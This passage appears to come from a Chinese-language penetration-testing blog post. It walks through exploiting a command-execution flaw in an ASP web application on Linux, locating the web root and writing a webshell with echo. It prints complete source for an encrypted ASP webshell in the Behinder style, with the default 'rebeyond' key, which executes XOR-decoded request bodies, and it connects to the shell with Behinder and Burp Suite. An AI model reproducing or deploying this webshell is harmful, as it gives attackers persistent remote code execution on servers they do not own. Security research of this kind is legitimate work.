 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EsDqqXj5v5s6CDViaDw6VCLMWwgIfD7eTyvYQibxYiaAl9FbBdfCnRGibpw/640?wx_fmt=png&from=appmsg "")  
  
  
这本身是个 web 系统啊，还是 asp 的，啊？ Linux 上的 asp 还真是少见，我直接写一个 asp 的木马进去不就完了吗？  
  
先找到 web 路径，从漏洞利用 PoC 可以知道，./webLib 对应的应该就是根目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EZwibyfWnVuTxn7bticvVdV8pX5CyafxcAD8Do7uMWb4gUFzn0KmSy13A/640?wx_fmt=png&from=appmsg "")  
  
  
直接访问 index.asp 和 dispatch.asp 会跳转到登录口 /doc/page/login.asp ，那就先找一下登录页面相关的路径吧，这样可能更容易访问一些，绝对路径如下  
```
/home/webLib/doc/page

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EbbMHQNFgHLwrMD6Nib8l10RzssiafaJUQAgFZYJSbD1gI4fZMMcHsq3g/640?wx_fmt=png&from=appmsg "")  
  
  
通过 echo 写入 Webshell  
```
<%
Response.CharSet = "UTF-8" 
k="e45e329feb5d925b" '该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
Session("k")=k
size=Request.TotalBytes
content=Request.BinaryRead(size)
For i=1 To size
result=result&Chr(ascb(midb(content,i,1)) Xor Asc(Mid(k,(i and 15)+1,1)))
Next
execute(result)
%>

```  
  
这里用 Railgun 就不是很方便了，用 Burpsuite 吧  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EXF9Bzhgrmr5D9L6XgC3ykcOQI8o8w6eauYIwZdXvccToZHH9PsCBCA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EE1ObVibbAvAhlBsqxONM8RQ0JeY0TiceUFK8MIEIaeUticyGd5Qquss5g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EhsKXKlP9y6JDgBbUtTccZIanBhW9wqbPo38Q0T3s3mbP8Lc4Nbj59g/640?wx_fmt=png&from=appmsg "")  
  
  
这里分两次写是因为这个漏洞可执行的命令长度有限制，而且还不太统一  
  
访问 webshell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EHDJVyb86jUl7d19nIdrlHOMk8SJAibqFHtshgpeKNSA2jAA57WzoDLw/640?wx_fmt=png&from=appmsg "")  
  
  
看起来似乎没有解析呀，冰蝎连接一下，有枣没枣打三竿  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EDrq2WO6DmWmQdW4x1ibKnVsvswbDoniaAoZqcWdWIE8jkDzrO6PehLjA/640?wx_fmt=png&from=appmsg "")  
  